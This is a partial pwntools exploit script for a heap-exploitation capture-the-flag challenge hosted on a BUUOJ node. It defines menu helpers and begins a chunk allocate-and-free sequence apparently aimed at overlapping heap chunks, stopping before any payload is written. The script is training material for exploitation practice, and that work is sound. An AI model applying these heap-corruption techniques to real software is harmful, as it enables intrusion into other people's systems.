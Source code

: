 exp：

```python
from pwn import *

elf_path = './pwn'
elf = ELF(elf_path, checksec=False)
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = 'node5.buuoj.cn'
port = 27815

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(size, data):
    sla(b"Your choice: ", b"1")
    sla(b"Size:", str(size).encode())
    sla(b"Data", data)


def show_chunk(index):
    sla(b"Your choice: ", b"2")
    sla(b"Index:", str(index).encode())

def delete_chunk(index):
    sla(b"Your choice: ", b"3")
    sla(b"Index:", str(index).encode())

def exit_p():
    sla(b"Your choice: ", b"4")

add_chunk(0x410, b'a') #num 0
add_chunk(0x68, b'a') #num 1
add_chunk(0x4f0, b'a') #num 2
add_chunk(0x10, b'a') #num 3

delete_chunk(0) #del 0
delete_chunk(1) #del 1

add_chunk(0x68, b'a') #num 0
delete_chunk(0) #del 0
for i in range(0, 9):
    add_chunk(0x68-i, b'a'*(0x68-i))
```